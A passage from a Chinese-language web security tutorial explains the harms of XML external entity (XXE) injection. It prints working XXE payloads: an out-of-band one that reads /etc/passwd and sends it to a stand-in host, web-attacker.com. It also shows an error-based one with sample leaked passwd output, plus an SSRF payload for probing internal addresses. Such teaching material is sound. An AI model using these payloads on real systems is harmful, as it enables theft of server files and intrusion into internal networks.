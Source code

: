 以上内容就是XML外部实体注入的产生原因，下面我们一起来学习它有哪些危害吧。

## XML外部实体注入的危害

XML外部实体注入会有很多危害，例如隐私文件获取以及发起SSRF攻击。让我们看一下它的攻击方式。

### XXE隐私文件获取

在之前学习XXE攻击方式的过程中，我们用XXE攻击来获取passwd文件。其实这就是XXE获取隐私文件的攻击方式。

在之前的示例中，我们默认了页面会将我们设置的XML内容进行输出，但实际上，**Web应用往往不会输出我们注入的XML内容**。这时候就是XXE盲注，我们需要借助一些技巧，来将文件的内容展示出来。

面对XXE盲注时，我们可以利用带外的方法来获取数据：

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;

```

在上述示例中，我们将获取到的数据通过get方式发送到攻击者的服务器，这样攻击者可以查看服务器接收到的请求获取到想要的数据。

当然，我们还可以利用报错信息来输出想要获取的数据：

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;

```

在这个示例中，我们将引入了error参数，XML会去访问一个不存在的文件，导致错误的产生，并将错误信息给eval，由于文件路径中存在我们需要的数据file，这样就会导致Web应用显示出错信息，并且其中包含我们需要的数据。我们可以看一个示例输出：

```
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...

```

### XXE发起SSRF攻击

SSRF攻击即为服务端请求伪造，我们可以利用XXE来实现。首先我们先来看一个示例，这样可以帮助我们理解它的攻击方式。

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>

```

这是我们需要注入的XML代码，Web应用在解析它的时候，会向其中的链接发出请求，并且这个请求是由被攻击Web应用的服务器所发送的，这就是SSRF攻击。

它到底有什么作用呢？**我们可以利用它来判断Web应用服务器内网地址的开启情况**，只需要将链接改为服务器的内网地址，然后根据响应的内容就可以判断内网地址是否开放，这会对内网的安全产生威胁。
